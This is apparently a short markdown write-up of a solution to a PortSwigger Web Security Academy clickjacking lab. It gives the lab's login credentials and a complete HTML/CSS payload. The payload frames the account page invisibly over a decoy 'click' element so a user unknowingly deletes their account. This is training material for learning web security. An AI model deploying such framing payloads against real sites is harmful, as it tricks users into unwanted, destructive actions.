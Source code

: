# Basic clickjacking with CSRF token protection

## This lab contains login functionality and a delete account button that is protected by a [CSRF](https://portswigger.net/web-security/csrf) token. A user will click on elements that display the word "click" on a decoy website.

## To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

## You can log in to your own account using the following credentials: `wiener:peter`

### Note: use w3school on different browser for testing once everything look perfect paste into expolit to main browser

note: `<div>click</div>` is important to solve the lab
change opacity: 0.1; to 0.0001

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 497px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>click</div>
<iframe
  src="https://0aa4007c04c1bb21817d7f1200820079.web-security-academy.net/my-account"
></iframe>
```
